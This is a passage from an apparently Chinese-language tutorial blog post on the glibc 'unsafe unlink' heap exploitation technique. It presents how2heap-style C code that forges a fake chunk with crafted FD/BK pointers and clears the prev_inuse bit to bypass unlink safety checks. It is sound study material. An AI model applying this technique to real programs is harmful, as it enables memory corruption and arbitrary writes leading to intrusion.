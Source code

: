 **所以当我们把fd内容设置为(&P-3*4)，把bk的内容设置为（&P-2*4）的时候，就可以绕过这个安全检测机制 **

**0x02  通过分析unsafe unlink的代码，进一步理解unlink漏洞 **
1.申请两个大小为0x80的堆块:
```
chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
```
这里要注意的是第一个是全局变量指针，保存在bss段，而第二个malloc的指针是局部变量

2.在chunk0中构建一个伪的堆块，以chunk0_ptr为起始地址（直接改FD和BK）
```
chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
```

如图：

<img src="/images/posts/how2heap1/1526003702698.png" >

3.修改chunk1的pre_chunk_size字段和size字段，以便于在free(chunk1)的时候，可以合并上面构造的那个伪块(绕过对大小的验证)
```
header_size = 2
uint64_t *chunk1_hdr = chunk1_ptr - header_size;
chunk1_hdr[0] = malloc_size; //上一个堆块的大小，就是伪块的大小
chunk1_hdr[1]&=~1;  //末位清零，最后一位为零表示上一个堆块是free状态，可以和它合并
```

<img src="/images/posts/how2heap1/1526003816217.png" >
